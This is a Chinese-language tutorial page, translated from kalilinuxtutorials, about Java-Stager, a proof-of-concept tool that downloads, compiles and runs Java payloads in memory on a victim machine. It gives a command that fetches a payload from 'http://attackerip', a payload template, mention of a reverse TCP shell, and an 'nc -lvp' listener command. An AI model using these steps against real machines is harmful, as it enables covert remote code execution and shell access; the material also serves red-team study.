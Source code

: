 # Java-Stager:在内存中下载、编译和执行 Java 文件的 PoC

> 原文：<https://kalilinuxtutorials.com/java-stager-download-compile-execute/>

PoC **Java-Stager** 可以下载、编译和执行内存中的 Java 文件。

对我来说，这次演讲的关键部分是:

*   将 Stager 加载到受害者上(接触磁盘，但为良性二进制文件)
*   Stager 通过 HTTP 下载原始代码(保存在内存中)
*   Stager 编译原始代码(也在内存中)
*   Stager 然后执行编译后的代码(也在内存中)

 **## **如何使用 Java-Stager**

*   克隆整个存储库。
*   在可以使用 maven 的 IDE 中打开它(比如 NetBeans)
*   Stager 和示例负载位于“/src/main/java”文件夹中。
*   根据需要更改 Stager 并编译项目。我在默认配置文件中使用了“清理/构建”。

NetBeans 中的输出包括这样一行:

`**Building jar: C:\Users\cornerpirate\Documents\NetBeansProjects\java-stager\target\JavaStager-0.1-initial.jar**`

要对受害者进行治疗，您必须上传“JavaStager*。jar”文件和包含来自“目标”文件夹的 Janino 的“lib”文件夹。

以下命令将执行登台程序:

`**java -jar JavaStager-0.1-initial.jar**`

将提示您使用，如下所示:

`**Proper Usage is: java -jar JavaStager-0.1-initial.jar <url>**`

“url”是传递给 Stager 的唯一参数。一个使用示例是:

**`java -jar JavaStager-0.1-initial.jar http://attackerip/Payload.java`**

您的有效负载必须位于名为“Payload.java”的文件中，而您的漏洞代码必须位于名为“Run”的静态方法中。如果您想编写自己的代码，下面显示了模板:

```
**public class Payload {
   public static void Run() {
      // Your code here
   }
}** 
```

我在“TCPReverseShell.java”文件中提供了一个反向 TCP 有效负载的例子。为了防止名称冲突，这个不叫“Payload.java ”,类名是错误的。“TCPReverseShell.java”中的头注释解释了如何修改它才能工作。

您需要在 HTTP 服务器上托管您的“Payload.java”文件。攻击者需要使用标准的`**nc -lvp 8044**`技术启动一个 netcat 监听器来捕捉连接。

[![](img//d861a9096555aeb1980fc054015933d7.png) ](https://github.com/cornerpirate/java-stager) **信用:詹姆斯·威廉姆斯****